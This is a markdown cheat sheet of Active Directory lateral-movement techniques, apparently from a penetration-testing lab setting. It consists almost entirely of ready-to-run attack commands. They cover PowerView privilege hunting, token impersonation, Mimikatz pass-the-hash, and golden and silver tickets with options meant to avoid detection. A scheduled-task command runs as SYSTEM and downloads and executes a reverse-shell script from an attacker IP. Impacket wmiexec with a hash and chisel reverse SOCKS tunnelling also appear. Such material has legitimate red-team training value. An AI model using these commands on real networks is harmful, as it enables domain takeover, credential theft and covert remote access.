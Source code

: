 # Lateral Movement Enumeration
### Lateral Movement Enumeration With PowerView

```powershell
# Find existing local admin access for user (noisy 🚩)
Find-LocalAdminAccess

# Find local admin access over PS remoting (also noisy 🚩), requires Find-PSRemotingLocalAdminAccess.ps1
Get-NetComputer -Domain dollarcorp.moneycorp.local > .\targets.txt
Find-PSRemotingLocalAdminAccess -ComputerFile .\targets.txt dcorp-std355

# Same for WMI. Requires 'Find-WMILocalAdminAccess.ps1', which seems to be removed from Nishang?
Find-WMILocalAdminAccess -ComputerFile .\targets.txt
Find-WMILocalAdminAccess # Finds domain computers automatically

# Hunt for sessions of interesting users on machines where you have access (still noisy 🚩)
Invoke-UserHunter -CheckAccess | ?{$_.LocalAdmin -Eq True }

# Look for kerberoastable users
Get-DomainUser -SPN | select name,serviceprincipalname

# Look for AS-REP roastable users
Get-DomainUser -PreauthNotRequired | select name

# Look for users on which we can set UserAccountControl flags
## If available - disable preauth or add SPN (see below)
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Look for servers with Unconstrained Delegation enabled
## If available and you have admin privs on this server, get user TGT (see below)
Get-DomainComputer -Unconstrained

# Look for users or computers with Constrained Delegation enabled
## If available and you have user/computer hash, access service machine as DA (see below)
Get-DomainUser -TrustedToAuth | select userprincipalname,msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto
```

***

# Lateral Movement Abuse
## ADFS
- Connect legitimately to other services
- [Golden Token ADFS attack](https://www.qomplx.com/golden-ticket-attack-on-adfs/)
***
## Impersonate a user with runas
```cmd
runas /user:lars /netonly cmd
```

> `/netonly` Indicates that the user information specified is for remote access only. 
***
## Browser Pivoting
***

 ## GPO Abuse

***

### Token Manipulation

Tokens can be impersonated from other users with a session/running processes on the machine. A similar effect can be achieved by using e.g. CobaltStrike to inject into said processes.

#### Incognito

```powershell
# Show tokens on the machine
.\incognito.exe list_tokens -u

# Start new process with token of a specific user
.\incognito.exe execute -c "domain\user" C:\Windows\system32\calc.exe
```

> If you’re using Meterpreter, you can use the built-in Incognito module with `use incognito`, the same commands are available.

#### Invoke-TokenManipulation

```powershell
# Show all tokens on the machine
Invoke-TokenManipulation -ShowAll

# Show only unique, usable tokens on the machine
Invoke-TokenManipulation -Enumerate

# Start new process with token of a specific user
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"

# Start new process with token of another process
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\calc.exe" -ProcessId 500
```

### Mimikatz

```plaintext
# Overpass the hash
sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:[NTLMHASH] /run:powershell.exe

# Golden ticket (domain admin, w/ some ticket properties to avoid detection)
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

# Silver ticket for a specific SPN with a compromised service / machine account
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.domain.local /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

> A list of available SPNs for silver tickets can be found [here](https://adsecurity.org/?page_id=183). Another nice overview for SPNs relevant for offensive is provided [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#pass-the-ticket-silver-tickets).

### Command execution with schtasks

_Requires ‘Host’ SPN_

To create a task:

```powershell
# Mind the quotes. Use encoded commands if quoting becomes a pain.
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dcorp-dc.dollarcorp.moneycorp.local /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1''')'"
```

To trigger it:

```powershell
schtasks /RUN /TN "shell" /s dcorp-dc.dollarcorp.moneycorp.local
```

### Command execution with WMI

_Requires ‘Host’ and ‘RPCSS’ SPNs_

#### From Windows

```powershell
Invoke-WmiMethod win32_process -ComputerName dcorp-dc.dollarcorp.moneycorp.local -name create -argumentlist "powershell.exe -e $encodedCommand"
```

#### From Linux

```bash
# with password
impacket-wmiexec dcorp/student355:password@172.16.4.101

# with hash
impacket-wmiexec dcorp/student355@172.16.4.101 -hashes :92F4AE6DCDAC7CF870B79F1758503D54
```

### Command execution with PowerShell Remoting

_Requires ‘CIFS’, ‘HTTP’ and ‘WSMAN’ SPNs_

> This one is a bit tricky. A combination of the above SPNs may or may not work - also PowerShell may require the exact FQDN to be provided.

```powershell
# Create credential to run as another user (if needed, not needed with PTT)
# Leave out -Credential $Cred in the below commands if not using
$SecPassword = ConvertTo-SecureString 'thePassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('CORP\username', $SecPassword)

# Run a command remotely (can be used one-to-many!)
Invoke-Command -Credential $Cred -ComputerName $computer -ScriptBlock {whoami; hostname}

# Launch a session as another user (prompt for password)
Enter-PsSession -Credential $Cred -ComputerName $computer -Credential dcorp\Administrator

# Create a persistent session (will remember variables etc.), load a script into said session, and enter a remote session promptEE
$sess = New-PsSession -Credential $Cred
Invoke-Command -Session $sess -FilePath c:\path\to\file.ps1
Enter-PsSession -Session $sess

# Copy files to or from an active PowerShell remoting session
Copy-Item -Path .\Invoke-Mimikatz.ps1 -ToSession $sess2 -Destination "C:\Users\dbprodadmin\documents\
```

***


### Chisel proxying

Just an example on how to set up a Socks proxy to chisel over a compromised host. There are many more things you can do with Chisel!

On attacker machine (Linux or Windows):

```bash
./chisel server -p 8888 --reverse
```

On target:

```powershell
.\chisel_windows_386.exe client 10.10.16.7:8888 R:8001:127.0.0.1:9001
```

Now we are listening on `localhost:8001` on our attacking machine to forward that traffic to `target:9001`.

Then, open the Socks server. On target:

```powershell
.\chisel_windows_386.exe server -p 9001 --socks5
```

On attacking machine:

```bash
./chisel client localhost:8001 socks
```

A proxy is now open on port 1080 of our attacking machine.
